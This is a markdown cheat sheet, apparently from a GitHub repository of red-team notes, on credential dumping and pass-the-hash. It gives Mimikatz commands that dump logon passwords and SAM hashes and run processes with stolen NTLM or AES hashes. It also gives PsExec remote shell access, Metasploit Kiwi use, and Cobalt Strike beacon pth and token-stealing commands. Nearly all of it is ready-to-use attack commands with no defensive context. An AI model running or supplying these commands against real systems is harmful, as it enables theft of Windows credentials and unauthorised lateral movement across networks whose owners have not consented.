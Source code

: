 # Mimikatz

## 01 - Manual

### 1.1 - Dump the hashes

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::sam
```

### 1.2 - Over Pass the Hash

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:<commands>

mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /aes256:<aes256_hash> /ntlm:<nt_hash> /aes128:<aes128_hash> /run:<commands>

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

## 02 - Metasploit

### 2.1 - Kiwi

```
meterpreter > load kiwi

meterpreter > kiwi_cmd <mimikatz_commands>
```

## 03 - Havoc

TODO: Demonstrate pass the hash in Havoc

## 04 - Cobalt Strike

```
beacon> pth <username> aad3b435b51404eeaa3b435b51404ee:<NT> <commands>

beacon> pth Administrator aad3b435b51404eeaa3b435b51404ee:<NT> powershell -w hidden

beacon> steal_token <powershell_process_id>
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)
